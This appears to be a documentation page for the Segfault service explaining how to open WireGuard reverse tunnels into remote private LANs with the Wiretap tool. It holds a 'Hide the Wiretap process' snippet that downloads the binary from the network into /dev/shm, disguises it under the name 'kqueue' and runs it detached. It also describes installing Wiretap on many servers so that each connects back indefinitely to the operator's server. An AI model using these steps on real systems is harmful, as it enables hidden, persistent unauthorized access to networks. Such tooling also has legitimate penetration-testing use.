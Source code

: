 ```yaml
---
layout: default
title: Segfault / WireGuard Tricks
description: Segfault WireGuard Reverse Connection tricks.
---
```


<div style="text-align:center">
    <h1>WireGuard Reverse Connection</h1>
    <p>Hacks, Tips, Tricks and other shenanigans</p>
</div>

## Misc Tips

1. Use `curl rpc/net/help` for some help
1. `-d name=all` works with all commands
1. `curl rpc/net/show` may show that the interface is up but that no data has been transferred. It is likely that you have not started `wiretap` on the Exit Node yet or that Wiretap can not reach your Root Server.
1. It is only possible to have 1 Interface up at a time. (if you like us to add multi-interface support then please contact us.)

## Hide the Wiretap process

```shell
cd /dev/shm
curl -fsSL https://github.com/sandialabs/wiretap/releases/download/v0.2.1/wiretap_0.2.1_linux_amd64.tar.gz | tar xfz - -O >kqueue
PATH=.:$PATH
setsid kqueue server --private ...
```

## Deploy Wiretap first

It is possible to install [Wiretap](https://github.com/sandialabs/wiretap) on many many servers and only activate the Interface on your [Root Server](../) if and when needed. The Root Server does not need to know about the Wiretap installations until you like to access the remote private LAN from your [Root Server](../).

A deployed Wiretap will connect back to your [Root Server](../) indefinitely and until it is uninstalled from the remote private LAN.

__Step #1: Allocate a UDP port on your Root Server__

```shell
curl http://rpc/net/init
```

Take note of the *port*. The UDP Port is now associated with your [Root Server](../). Ignore the rest.

__Step #2: Generate Keys on the Exit Node__

The Exit Node is any Linux, Windows or OSX system inside the remote private LAN.

```shell
wiretap configure -e XX.segfault.net:<port> # Replace 'XX' with the segfault region you are using
```

{:refdef: style="text-align: center;"}
![login screen](wt-nosf2.png){:height="80%" width="80%"}
{: refdef}

Take note of the *PrivateKey* and *PublicKey*.

Start Wiretap as described in the output (green):

```shell
wiretap serve --private <...> --public <...> --endpoint XX.segfault.net:<port>
```

Repeat this step on as many Exit Nodes as you like and keep note of every new PrivateKey/PublicKey for each Exit Node.

__Step #3: Access the Network__

On your [Root Server](../):

```
curl http://rpc/net/up -d name=PrivLAN31337 -d private=<PrivateKey> -d exit_public=<PublicKey>
```

## Contact

{% include contact-details.md %}
